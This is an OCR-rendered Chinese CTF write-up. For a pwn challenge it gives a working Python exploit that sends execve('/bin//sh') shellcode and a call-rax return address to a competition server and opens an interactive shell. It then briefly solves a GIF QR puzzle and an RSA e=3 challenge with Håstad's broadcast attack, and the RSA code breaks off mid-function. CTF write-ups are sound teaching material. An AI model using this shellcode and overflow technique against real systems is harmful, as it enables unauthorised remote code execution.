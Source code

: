 ￼￼￼￼###Checkin Exploit 200

调试发现,在溢出函数的返回点上,输入字符串的结尾 8 字节存储在了 rbp 中,因此在这里存储 上/bin/sh,再构造 shellcode 即可。

```
#!/usr/bin/env python2
from zio import *

# shellcode(rbp => '/bin//sh'): 
#a: 99              cltd
#b: 89 de           mov %ebx,%esi 
#d: 53              push %rbx
#e: 55              push %rbp
#f: 48 89 e7        mov %rsp,%rdi 
#12: 6a 3b          pushq $0x3b
#14: 58             pop %rax
#15: 0f 05          syscall    

call_rax = 0x40070d
shellcode = '9989de53554889e76a3b580f05'.decode('hex') + '\x90' + '/bin//sh'

host = '202.120.7.73' 
port = 44445
io = zio((host, port))

payload = shellcode + l64(call_rax)[:6] 
io.write(payload)

io.interact()

```

### ￼￼￼￼￼￼￼￼GIF Misc 50

GIF 第二帧为一二维码,内容即为 flag。

### 丫丫 Crypto 400

流量中包含了 7 组公钥和密文。考虑到 e=3,使用 Håstad's Broadcast Attack 方法,可使用中国剩余定理对原文求解。发现 7 组原文并不完全相同,从中枚举 3 个尝试解密最终获得 flag。

```
#!/usr/bin/env python2
from operator import mod, mul, sub, add 
import re, os, collections, sys
import fractions
import itertools

def eea(a,b):
    """Extended Euclidean Algorithm for GCD""" 
    v1 = [a,1,0]
    v2 = [b,0,1]
    while v2[0]<>0:
        p = v1[0]//v2[0] # floor division
        v2, v1 = map(sub,v1,[p*vi for vi in v2]), v2 
    return v1

def inverse(m,k): 
    """
    Return b such that b*m mod k = 1, or 0 if no solution 
    """
    v = eea(m,k)
    return (v[0]==1)*(v[1] % k)

def crt(ms, _as): 
    """
```